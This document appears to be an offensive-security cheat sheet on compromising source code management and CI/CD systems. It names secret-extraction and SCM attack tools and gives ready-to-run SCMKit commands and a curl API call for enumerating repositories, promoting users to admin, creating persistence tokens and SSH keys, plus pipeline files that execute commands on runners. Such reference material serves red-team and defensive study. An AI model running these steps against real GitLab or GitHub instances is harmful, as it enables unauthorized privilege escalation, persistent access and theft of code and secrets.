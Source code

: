 # Source Code Management & CI/CD Compromise

> CI/CD is a method to frequently deliver apps to customers by introducing automation into the stages of app development. The main concepts attributed to CI/CD are continuous integration, continuous delivery, and continuous deployment. Compromises in CI/CD can occur through unauthorized access, misconfiguration, dependency vulnerabilities, insecure secrets, and lack of visibility.


## Tools

* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - List the secrets stored inside CI/CD environments and extract them by deploying malicious pipelines
* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit


## Enumerate repositories files and secrets

Using [SCMKit - Source Code Management Attack Toolkit](https://github.com/xforcered/SCMKit)

* Discover repositories being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m listrepo -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrepo -c apiKey -u https://gitlab.something.local
    ```
* Search for repositories by repository name in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchrepo -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchrepo -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* Search for code containing a given keyword in a particular SCM system
    ```ps1
    SCMKit.exe -s github -m searchcode -c userName:password -u https://github.something.local -o "some search term"
    SCMKit.exe -s github -m searchcode -c apikey -u https://github.something.local -o "some search term"
    ```
* Search for files in repositories containing a given keyword in the file name in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m searchfile -c userName:password -u https://gitlab.something.local -o "some search term"
    SCMKit.exe -s gitlab -m searchfile -c apikey -u https://gitlab.something.local -o "some search term"
    ```
* List snippets owned by the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listsnippet -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listsnippet -c apikey -u https://gitlab.something.local
    ```
* List all GitLab runners available to the current user in GitLab
    ```ps1
    SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
    SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
    ```
* Promote a normal user to an administrative role in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```


## Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

* Manual
    ```ps1
    curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
    ```

* Using `SCMKit.exe`: Create/List/Delete an access token to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```
* Get the assigned privileges to an access token being used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```


## SSH Keys

* Create/List an SSH key to be used in a particular SCM system
    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```


## Gitlab CI

* Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`
    ```yaml
    stages:
        - test

    test:
        stage: test
        script:
            - |
                whoami
        parallel:
            matrix:
                - RUNNER: VM1
                - RUNNER: VM2
                - RUNNER: VM3
        tags:
            - ${RUNNER}
    ```


### Gitlab Executors

* **Shell** executor: The jobs are run with the permissions of the GitLab Runner’s user and can steal code from other projects that are run on this server.
* **Docker** executor: Docker can be considered safe when running in non-privileged mode.
* **SSH** executor: SSH executors are susceptible to MITM attack (man-in-the-middle), because of missing `StrictHostKeyChecking` option. 


### Gitlab CI/CD variables

CI/CD Variables are a convenient way to store and use data in a CI/CD pipeline, but variables are less secure than secrets management providers


## Github Actions

* Github Action "Command Execution" example: `.github/workflows/example.yml`
    ```yml
    name: example
    on:
      workflow_dispatch:
      push:
        branches: [ main ]
      pull_request:
        branches: [ main ]

    jobs:
      build:
        runs-on: windows-2019

        steps:
          - name: Execute
            run: |
              whoami
    ```
    

## References

* [Controlling the Source: Abusing Source Code Management Systems - Brett Hawkins - August 9, 2022](https://securityintelligence.com/posts/abusing-source-code-management-systems/)
* [CI/CD SECRETS EXTRACTION, TIPS AND TRICKS - Hugo Vincent, Théo Louis-Tisserand - 01/03/2023](https://www.synacktiv.com/publications/cicd-secrets-extraction-tips-and-tricks.html)
* [Security for self-managed runners - Gitlab](https://docs.gitlab.com/runner/security/)
* [Fixing Typos and Breaching Microsoft’s Perimeter - John Stawinski IV - April 15, 2024](https://johnstawinski.com/2024/04/15/fixing-typos-and-breaching-microsofts-perimeter/)